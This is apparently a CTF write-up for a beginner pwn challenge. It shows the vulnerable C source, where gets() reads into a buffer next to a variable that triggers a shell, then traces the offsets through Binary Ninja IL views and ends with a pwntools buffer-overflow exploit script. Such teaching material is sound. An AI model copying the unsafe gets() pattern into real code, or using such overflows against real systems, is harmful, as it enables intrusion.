



# Challenge

I really love the Sunshine CTF's Speedruns for teaching PWNing. This problem set is inspired by those.

#1. Smash a variable

nc 0.cloud.chals.io 19595

Author: ProfNinja

Attached: dist.zip

# Solution

You can see from the source that there is a variable following a buffer.  And
if this variable gets set to 0x1337 then we spawn a shell we can use to print
the flag from.

```
int main(){
    char buf[0x100];
    int overwrite_me;
    overwrite_me = 1234;
    puts("Welcome to PWN 101, smash my variable please.\n");
    gets(buf);
    if (overwrite_me == 0x1337){
        system("/bin/sh");
    }
    return 0;
}
```

So I guess right away that I can just shove 0x100 'A's into the buf followed by
0x1337...  But I'm also gonna need to know how big that integer is (is this a
32-bit or 64-bit binary).  So let me check it out real quick in Binary Ninja...



What the heck.... no condition at all!  Binja isn't displaying any branch at
all because it knows that the variable overwrite_me is only set 1 time when it
is declared, and thus value can never change, so this conditional branch will
never be executed under any circumstance, just omit from the Pseudo-C to make
the decompiled code simpler.

Usually this is fine, but doesn't work out the best for us in this instance.
But it's very easy to look at the lower level intermediate languages to get a
better view into what the code is doing.

The Medium Level IL (MLIL) shows the following:



Well, we see the branch now, but the MLIL has still optimized out the
expression in the conditional to true!

Going lower, to the Low Level IL (LLIL):



So this now gives me a better understanding.  I can see the conditional is
looking at rbp - 0x4.  And the buf we are reading into is at rbp - 0x110.

So create a padding of 0x10c bytes, followed by a 32-bit bit integer (DWORD)
with the value 0x1337, followed by a newline.  Executing our pwntools
script will give us a remote shell which we can use to print out the flag.

```
#!/usr/bin/env python3

from pwn import *

print("Start pwning")

sh = process("./pwnme")
#sh = remote("0.cloud.chals.io",19595)

payload = b"A" * (0x110 - 4)

payload += p32(0x1337)
payload += b"\n"

sh.send(payload)
sh.interactive()
```
